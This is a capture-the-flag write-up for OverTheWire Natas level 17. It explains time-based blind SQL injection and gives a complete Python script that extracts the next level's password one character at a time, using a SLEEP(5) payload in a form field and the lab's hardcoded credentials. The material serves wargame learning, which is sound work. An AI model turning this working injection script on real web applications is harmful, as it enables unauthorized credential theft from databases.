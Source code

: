 
### Level 17: Advanced SQL Injection

- **Commands/Tools Introduced:** SQL Injection, Command Injection, Time-Based Blind SQL Injection

#### Solution Outline:
1. **Understanding the Challenge:**
   The level presents a search feature that allows users to search for specific strings in the database. This time we don't have any feedback on the search results, making it a blind SQL injection challenge.

2. **Exploiting the Vulnerability:**
    The goal is to extract the password from the users table in the natas17 database. By crafting SQL queries that return true or false based on specific conditions, we can extract the password character by character. Here, we use a time-based blind SQL injection technique to determine the presence of characters in the password.

3. **Automating the Process:**
    I came up with a Python script that iterates through the character set and extracts the password character by character using time delays to determine the presence of characters in the password.
    ```python
    import requests
    from time import *

    characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
    username = "natas17"
    password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"
    Url = "http://natas17.natas.labs.overthewire.org"

    session = requests.session()
    current_password = list()

    while True:
        for character in characters:
            startTime = time()
            response = session.post(
                Url,
                data={
                    "username": 'natas18" AND password LIKE BINARY "'
                    + "".join(current_password)
                    + character
                    + '%" AND SLEEP(5) #'
                },
                auth=(username, password),
            )
            endTime = time()
            if endTime - startTime > 5:
                print("Password so far " + "".join(current_password) + character)
                current_password.append(character)
                break
        if len(current_password) == 32:
            break
    ```
